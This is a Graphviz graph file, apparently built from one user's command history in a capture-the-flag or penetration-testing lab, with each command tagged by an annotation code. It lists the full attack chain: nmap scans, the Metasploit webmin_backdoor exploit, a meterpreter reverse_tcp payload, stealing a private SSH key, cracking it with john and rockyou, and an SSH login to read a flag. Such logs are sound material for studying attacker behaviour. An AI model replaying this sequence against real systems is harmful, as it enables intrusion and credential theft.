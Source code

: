 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- M0 "]
	3 [label="nmap 172.18.1.5 -p- -A M0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	9 [label="set LHOST 10.1.135.83 M6 "]
	10 [label="show options M5 "]
	11 [label="set RHOSTS 172.18.1.5 M6 "]
	12 [label="exploit M8 "]
	13 [label="search web A3 "]
	14 [label="search web_de A3 "]
	15 [label="setg LHOST 10.1.135.83 M6 "]
	16 [label="use exploit/multi/script/web_delivery M8 "]
	17 [label="show optins A5 "]
	18 [label="show otions A5 "]
	19 [label="show options M5 "]
	20 [label="set target linux A6 "]
	21 [label="show options M5 "]
	22 [label="show targets A5 "]
	23 [label="set target  A6 "]
	24 [label="show options M5 "]
	25 [label="show targets A5 "]
	26 [label="set target  A6 "]
	27 [label="set target 6 A6 "]
	28 [label="show options M5 "]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  A6 "]
	30 [label="show options M5 "]
	31 [label="run M8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	33 [label="run M8 "]
	34 [label="set LPORT 4445 A6 "]
	35 [label="run M8 "]
	36 [label="nmap 172.18.1.5/12 -p- M0 "]
	42 [label="nmap 172.18.1.5/24 -p- M0 "]
	45 [label="nmap 172.18.1.2 A0 A1 "]
	51 [label="nmap 81.2.195.254 A0 A1 "]
	54 [label="nmap 10.1.18.22 A0 A1 "]
	55 [label="nmap 10.1.17.4 A0 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa M12 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	63 [label="python ssh2john.py M13 "]
	64 [label="python ssh2john.py .ssh/id_rsa M13 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve M13 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="chmod 600 .ssh/id_rsa M15 "]
	72 [label="ssh eve@10.1.17.4 M16 "]
	73 [label="ls -la A10 "]
	75 [label="ls A10 "]
	76 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 42 [constraint=false]
	42 -> 45 [constraint=false]
	45 -> 51 [constraint=false]
	51 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	rankdir=LR
}
